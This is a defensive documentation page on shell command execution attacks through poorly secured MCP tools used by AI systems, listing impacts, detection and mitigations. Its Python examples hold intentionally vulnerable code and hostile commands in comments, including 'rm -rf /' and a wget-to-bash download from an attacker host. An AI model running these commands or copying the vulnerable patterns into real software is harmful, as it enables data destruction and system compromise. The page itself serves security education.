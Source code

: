 ```yaml
---
layout: default
title: "Shell Command Execution"
permalink: /ttps/command-injection/shell-command-execution/
nav_order: 5
parent: "Command & Code Injection"
grand_parent: "MCP Security TTPs"
---
```


# Shell Command Execution

**Category**: Command & Code Injection  
**Severity**: Critical  
**MITRE ATT&CK Mapping**: T1059.004 (Unix Shell)

## Description

Direct execution of shell commands through poorly secured MCP tools, enabling attackers to execute arbitrary shell commands and scripts on the target system.

## Technical Details

### Attack Vector
- Direct shell command execution
- Shell script injection
- Command line manipulation
- Shell environment exploitation

### Common Techniques
- Shell command chaining
- Script injection
- Shell metacharacter abuse
- Environment variable manipulation

## Impact

- **Shell Access**: Direct access to system shell
- **Command Execution**: Ability to run any shell command
- **Script Execution**: Ability to execute shell scripts
- **System Control**: Control over system through shell access

## Detection Methods

### Shell Monitoring
- Monitor shell process creation
- Track shell command execution
- Detect unusual shell activity
- Monitor shell script execution

### Command Analysis
- Analyze shell command patterns
- Monitor command line arguments
- Track shell metacharacter usage
- Detect command injection patterns

## Mitigation Strategies

### Shell Security
- Restrict shell access
- Use shell command filtering
- Implement shell sandboxing
- Monitor shell activity

### Command Controls
- Use command allow-lists
- Implement command validation
- Deploy shell restrictions
- Monitor command execution

## Real-World Examples

### Example 1: Direct Shell Command
```python
def run_system_command(command):
    # Vulnerable shell command execution
    result = subprocess.run(command, shell=True, capture_output=True)
    
    # Attack: command = "rm -rf / --no-preserve-root"
    # Executed: rm -rf / --no-preserve-root
```

### Example 2: Shell Script Injection
```python
def execute_script(script_content):
    # Vulnerable script execution
    with open('/tmp/script.sh', 'w') as f:
        f.write(script_content)
    os.system('bash /tmp/script.sh')
    
    # Attack: script_content = "#!/bin/bash\nwget http://attacker.com/malware.sh | bash"
    # Executed: Downloads and executes malware
```

### Example 3: Shell Environment Manipulation
```python
def run_with_env(command, env_vars):
    # Vulnerable environment variable usage
    env = os.environ.copy()
    env.update(env_vars)
    subprocess.run(command, shell=True, env=env)
    
    # Attack: env_vars = {"PATH": "/tmp:$PATH"} with malicious binaries in /tmp
    # Executed: Commands execute malicious versions from /tmp
```

## References & Sources

- **Strobes Security** - "MCP and Its Critical Vulnerabilities"
- **Simon Willison** - "Model Context Protocol has prompt injection security problems"

## Related TTPs

- [Command Injection](command-injection.md)
- [OS Command Injection](os-command-injection.md)
- [Code Injection](code-injection.md)

---

*Shell command execution represents a direct path to system compromise through unrestricted shell access.*